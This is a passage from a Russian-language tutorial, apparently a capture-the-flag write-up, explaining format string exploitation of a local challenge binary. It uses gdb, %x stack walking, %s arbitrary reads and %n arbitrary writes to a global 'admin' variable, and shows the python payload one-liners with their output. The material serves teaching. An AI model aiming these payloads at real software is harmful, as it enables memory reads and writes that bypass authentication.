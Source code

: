 Как удачно попали. Нам нужно 12 `%x`. Если забыли, `0x41` - это ASCII-код для `'A'`. Отлично, с этим разобрались. Теперь покажу, как можно прочесть любой участок памяти. Всё что вам нужно знать - адрес этой памяти. Давайте глянем адрес `admin` в gdb.

```
gef➤  hexdump &admin
0x0804c02c <admin+0000>     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x0804c03c                  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x0804c04c                  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x0804c05c                  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
```

Нужный нам адрес - `0x0804c02c`. Давайте его прочитаем. Всё, что вам нужно вспомнить, чтобы догадаться, как я это сделаю - то, как работает `printf` в нормальных условиях:

```
printf("hey %d I %x can %p spam %u some %s values!", int1, hex2, pointer3, unsigned4, string5);
```

Здесь, для того, чтобы напечатать строку он возьмет 5 ячеек из аргументов printf (помните, как устроены стек-фреймы, правда?). Эти ячейки расположены сразу за `return-address`. А теперь давайте обманем этот механизм, подав бинарю `\x2c\xc0\x04\x08.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%p`:

```
printf("\x2c\xc0\x04\x08.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%p"); // вот так это будет выглядеть

$ python -c 'print "\x2c\xc0\x04\x08." + "%x."*11 + "%s"' | ./chall
,.f7f03ad4.fbad2087.80491b2.f7ec7000.804c000.fface8a8.8049297.804a030.fface4a0.f7ec7580.8049219.
You cannot login as admin.
```

Обратите внимание, что подал я 11 `%x` и 1 `%s`. Хексовых значений вывелось 11. А куда же делась строка? А я скажу вам. Она там есть. Просто мы прочитали что-то по адресу глобальной переменной `admin`! Почему ничего не вывелось? Да потому что там нулевые байты! Как можно вывести нулевую строку-то? Никак. Что и следовало ожидать.

Итак, мы научились читать произвольную область памяти. Это хорошо. Но как же мы будем в неё писать? Есть идея. У `printf` есть специальный спецификатор ввода `%n`. Если где-то указан `%n`, то по адресу, указанному в соответствующем аргументе будет записано целое число - длина строки до этого спецификатора. Например:

```
int len;
printf("In my childhood %n I was a legit Half-Life Deathmatch player!\n", &len); // => len = 16
```

Уловили? В качестве адреса этой переменной мы передадим адрес глобальной! Как-то так:

```
printf("\x2c\xc0\x04\x08.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%n");
вывод в нашем случае:
,.f7fe7ad4.fbad2087.80491b2.f7fab000.804c000.ffffcfd8.8049297.804a030.ffffcbd0.f7fab580.8049219.
```

Этот пример запишет в `admin` число `0x63`! А `0х63` - это ASCII-код буквы `'c'`. Если я прав, мы должны увидеть её, прочитав. Чтобы одновременно и записать, и прочитать, воспользуемся `%12$s`. Спецификатор `%12$s` говорит `printf` вывести строку, указанную по адресу в 12-м аргументе.
```
python -c 'print "\x2c\xc0\x04\x08." + "%x."*11 + "%n" + "%12$s"' | ./chall
,.f7f42ad4.fbad2087.80491b2.f7f06000.804c000.ffc67088.8049297.804a030.ffc66c80.f7f06580.8049219.c
You cannot login as admin.
```
